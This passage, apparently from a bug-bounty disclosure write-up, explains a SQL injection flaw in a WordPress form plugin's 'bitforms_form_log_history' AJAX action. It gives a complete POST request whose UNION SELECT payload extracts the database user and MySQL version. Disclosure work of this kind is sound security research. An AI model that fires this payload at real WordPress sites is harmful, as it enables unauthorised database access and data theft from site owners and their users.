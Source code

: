 ```php
```

Therefore, AJAX action `bitforms_form_log_history` is vulnerable to SQL injection.

Let's try that!

Since we already created a form in the previous vulnerability demonstration, we can send the following POST request to exploit the SQL injection vulnerability:

```http
POST /wp-admin/admin-ajax.php?action=bitforms_form_log_history&_ajax_nonce=780bef0a26 HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 151
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724553914%7C9pNaCWccoYSDyYoiSO4e07YnorNyXoFaKEF0H5QnZkX%7C58c18d2f8b6415954d2a339d57d57b3c1fe7bc913f22130d5780f0d2a85c49f9; wp-settings-time-1=1724390118; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724553914%7C9pNaCWccoYSDyYoiSO4e07YnorNyXoFaKEF0H5QnZkX%7Cf943227a153b21afbc65dbd93c78032c2ad0055a49af9c5fedf5d1281404dbd7

{"formID":"1","entryID":"0 UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,concat('Database user: ', user()),concat('MySQL version: ', @@version)-- -"}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240823133713.png)
